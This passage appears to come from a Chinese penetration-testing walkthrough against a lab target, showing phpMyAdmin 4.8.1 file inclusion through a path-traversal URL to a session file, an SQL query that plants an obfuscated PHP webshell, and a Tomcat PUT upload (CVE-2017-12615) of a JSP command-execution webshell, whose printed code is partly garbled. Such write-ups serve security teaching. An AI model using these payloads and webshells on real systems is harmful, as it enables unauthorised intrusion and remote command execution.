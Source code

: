 得到此时网络 cookie 中的 phpmyadmin 值为 20b3a71f70b1cb0cd5a34fb7d7b4cf37，则此时产生的 session 文件名为 sess_20b3a71f70b1cb0cd5a34fb7d7b4cf37。构建包含 Session 值的 URL 路径，包含该 session 文件：

```
?target=db_datadict.php%253f/../../../../../../../../../tmp/sess_20b3a71f70b1cb0cd5a34fb7d7b4cf37
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxaSiafx6Ycz3a4l2WUVVEicI4uMUzfOzeb9UKVWyrZQbAxbicibUyqdBb9g/640?wx_fmt=png)image-20200726192846661

包含成功，显示了 phpinfo 页面，接下来我们要利用文件包含漏洞来 getshell。在 sql 执行处执行一下语句来在 session 文件中写入免杀的 webshell：

```
SELECT "<?php $p = array('f'=>'a','pffff'=>'s','e'=>'fffff','lfaaaa'=>'r','nnnnn'=>'t');$a = array_keys($p);$_=$p['pffff'].$p['pffff'].$a[2];$_= 'a'.$_.'rt';$_(base64_decode($_REQUEST['whoami']));?>"
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibx4mHoguTnLaN66fLJwfCxbGSm9vVl8vJxGNMK1BpiaexwVOABXNHrscg/640?wx_fmt=png)image-20200726193638452

F12 查看 cookie 中的 phpmyadmin 值：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxdiatOwNt70lic7iaqzhs5KjiaU9flx5rMY0dbkxkibYr9ExUP3B7emwF0rA/640?wx_fmt=png)image-20200726193738519

蚁剑连接：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxGke6CDZGVYPv4Ria5H1e225cSbkfibT3CP7ywqtFMoBQCviapSaibmibJQQ/640?wx_fmt=png)image-20200726193847620

连接成功：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxia0tbxPUGgHNj5mkrYlQF41sRnSQE325mIQ0KDYj13yF47bQQReoU3g/640?wx_fmt=png)image-20200726193923821

> 然而，我们虽然拿到了目标服务器的 shell，但此时的 shell 只是目标机 docker 中的 shell，要想实现对 docker 宿主机的控制，我们还要 docker 逃逸。

Tomcat 任意文件上传漏洞（CVE-2017-12615）
-------------------------------

上面我们演示了 PhpMyAdmin 4.8.1 文件包含漏洞拿到了目标的 shell，接下来我们演示利用 Tomcat 任意文件上传漏洞（CVE-2017-12615）来获取目标的控制权。（本次渗透也以该漏洞为主）

我们在当开始的 nmap 端口扫描中可以发现，目标 Web 服务器的 2002 端口上运行着 Tomcat，并且版本为 8.5.19。我们知道 Tomcat 的漏洞比较出名的有 CVE-2017-12615，CVE-2017-12615 是 Tomcat 中间件的任意文件上传漏洞，但此漏洞影响范围是 Apache Tomcat 7.0.0 – 7.0.79，我们靶机的 Tomcat 版本似乎不再影响范围之内，是实际中 Tomcat 5-9 均存在类似 CVE-2017-12615 的利用方式，同样可以类比运用，但这不归属于 CVE-2017-12615 漏洞。

访问目标 Web 服务器的 Tomcat：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxkP6uK8FIOVaQyoicXEZRysQAKwJEqicVjTsNo1GGficzI6tKRmoQHTkdQ/640?wx_fmt=png)image-20200726195327994

抓包，

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouic72BAcaz731uT94XVXBPibxx6G3tzpxmZYpTH6q6CNV112fgDrKpiaXUEu5TYAqrywUxg4B6sTH2uw/640?wx_fmt=png)image-20200726195527337

在以上红框处做修改，将 GET 方法改为 PUT，并上传 webshell 文件 shell.jsp，其中内容如下：

```
<%@ page import="java.util.*,java.io.*,java.net.*"%><%%><HTML><BODY><FORM METHOD="POST" ) != null) {        out.println("Command: " + request.getParameter("cmd") + "\n<BR>");        Process p = Runtime.getRuntime().exec(request.getParameter("cmd"));        OutputStream os = p.getOutputStream();        InputStream in = p.getInputStream();        DataInputStream dis = new DataInputStream(in);        String disr = dis.readLine();        while ( disr != null ) {                out.println(disr); disr = dis.readLine(); }        }%></pre></BODY></HTML>
```
